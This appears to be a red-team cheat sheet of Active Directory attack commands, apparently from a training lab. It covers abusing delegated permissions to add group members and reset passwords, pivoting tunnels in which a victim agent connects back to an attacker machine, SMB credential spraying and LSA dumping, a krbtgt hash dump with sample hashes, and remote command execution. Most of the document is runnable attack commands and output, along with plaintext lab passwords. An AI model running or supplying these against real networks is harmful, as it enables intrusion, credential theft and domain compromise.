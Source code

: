 

#AD Exploit Permission Delegation
+ ForceChangePassword: We have the ability to set the user's current password without knowing their current password.
+ AddMembers: We have the ability to add users (including our own account), groups or computers to the target group.
+ GenericAll: We have complete control over the object, including the ability to change the user's password, register an SPN or add an AD object to the target group.
+ GenericWrite: We can update any non-protected parameters of our target object. This could allow us to, for example, update the scriptPath parameter, which would cause a script to execute the next time the user logs on.
+ WriteOwner: We have the ability to update the owner of the target object. We could make ourselves the owner, allowing us to gain additional permissions over the object.
+ WriteDACL: We have the ability to write new ACEs to the target object's DACL. We could, for example, write an ACE that grants our account full control over the target object.
+ AllExtendedRights: We have the ability to perform any action associated with extended AD rights against the target object. This includes, for example, the ability to force change a user's password.

	PS C:\>Add-ADGroupMember "IT Support" -Members "Your.AD.Account.Username"
	PS C:\>Get-ADGroupMember -Identity "IT Support" -> you will see your account added to gropu IT Support
	****** ForceChangePassword
	PS C:\>Get-ADGroupMember -Identity "Tier 2 Admins" -> find user interest to resent their password
 	
	PS C:\>$Password = ConvertTo-SecureString "New.Password.For.User" -AsPlainText -Force 
	PS C:\>Set-ADAccountPassword -Identity "AD.Account.Username.Of.Target" -Reset -NewPassword $Password

	***** Note: If you get an Access Denied error, your permissions have not yet propagated through the domain. This can take up to 10 minutes. The best approach is to terminate your SSH or RDP session, take a quick break, and then reauthenticate and try again. You could also run gpupdate /force and then disconnect and reconnect, which in certain cases will cause the synchronisation to happen faster.

  	HTTP - Used for web applications to allow pass-through authentication using AD credentials.
CIFS - Common Internet File System is used for file sharing that allows delegation of users to shares.
LDAP - Used to delegate to the LDAP service for actions such as resetting a user's password.
HOST - Allows delegation of account for all activities on the host.
MSSQL - Allows delegation of user accounts to the SQL service for pass-through authentication to databases.
    
# Pivoting

Sshuttle Command:

	sshuttle -r user@remote_host:2222 192.168.98.0/24 
	sshuttle -r user@remote_host 192.168.98.0/24 

	192.168.98.0/24 -> get from check ifconfig when see 2 adapter
	
	after shuttle
	
	nmap -sC -sV 192.168.98.5 -> IP for Pivoting

ligolo-ng

	#Attacker Machine, download proxy & agent :
	
	#Proxy
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_proxy_0.4.3_Linux_64bit.tar.gz

	#Agent
	wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.4.3/ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz
	tar -xvzf ligolo-ng_agent_0.4.3_Linux_64bit.tar.gz

	Setup the ligolo-ng proxy in the attacker machine & ligolo-ng in the victim machine.

	# Attacker Machine
	sudo ip tuntap add user kali mode tun ligolo

	#Delete the 192.168.98.0/24 IP Range from the tun0 interface :
	sudo ip route del 192.168.98.0/24 dev tun0
	#Up the ligolo interface :
	sudo ip link set ligolo up
	#Add 192.168.98.0/24 IP range to the ligolo interface :
	sudo ip route add 192.168.98.0/24 dev ligolo

	Confirm the route on your attacker machine.

	ip route

	Start the proxy on the attacker server
	./proxy -selfcert -laddr 0.0.0.0:443

	Transfer the agent on the victim machine & start the connection
	#Replace this with your attacker IP address.
	./agent -connect 10.10.200.X:443 -ignore-cert

	session
	list_tunnels
	start

SSH Pivoting

	ssh -D 8088 privilege@192.168.80.10
	netstat -ano | grep 8088

rpivoting

	+ attacker set up
 		-check python2 availble 
		python2 server.py --server-port 9980 --server-ip 0.0.0.0 --proxy-ip 127.0.0.1 --proxy-port 9050
	 	ifconfig -> copy this ip to victim
   
  	+ victim set up
  	
		copy rpivoting to victim client 
		python2 client.py --server-ip 10.10.200.124 --server-port 9980


# Firefox Find Information

	ls -la .mozilla/
	cd .mozilla/firefox/
	# The filename may vary on your infrastructure, identify & use accordingly
	cd b2rri1qd.default-release
	
	sqlite3 places.sqlite
	.tables
	select * from moz_bookmarks;

# SMB

SMB Bruteforce IP List with one username and password

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" -u "john" -p "User1@#$%6" ; done

SMB check information 

	crackmapexec smb 192.168.98.2

	for i in 2 15 30 120; do crackmapexec smb "192.168.98.$i" sleep 10; done

SMB LSA 

	crackmapexec smb 192.168.98.30 -u john -p User1@#$%6 --lsa

	Output: 
		SMB         192.168.98.30   445    MGMT             			corpmngr@child.warfare.corp:User4&*&*

# Impacket tools

**Install Impacket In kali**

	sudo apt install python3-impacket

**Dumping user Krbtgt**

	impacket-secretsdump -debug child/corpmngr:"User4&*&*"@cdc.child.warfare.corp -just-dc-user 'child\krbtgt'

	Result:
	[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=child,DC=warfare,DC=corp
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:e57dd34c1871b7a23fb17a77dec9b900:::
	krbtgt:aes256-cts-hmac-sha1-96:ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2
	krbtgt:aes128-cts-hmac-sha1-96:806d6ea798a9626d3ad00516dd6968b5
	krbtgt:des-cbc-md5:ba0b49b6b6455885

# Remote login with exec
	impacket-smbexec corpmngr:"User4&*&*"@192.168.98.120

# Loop Net User /DOM
	for %u in (t2_alan.riley t2_caroline.dawson t2_henry.harvey t2_henry.shaw t2_irene.nash t2_jordan.hawkins t2_june.russell t2_kathleen.mills t2_lawrence.lewis t2_leon.francis t2_melanie.davies t2_robin.wyatt t2_ross.bird) do @echo ==== %u ==== && net user "%u" /domain && echo.


# RedTeam-CheckSheet
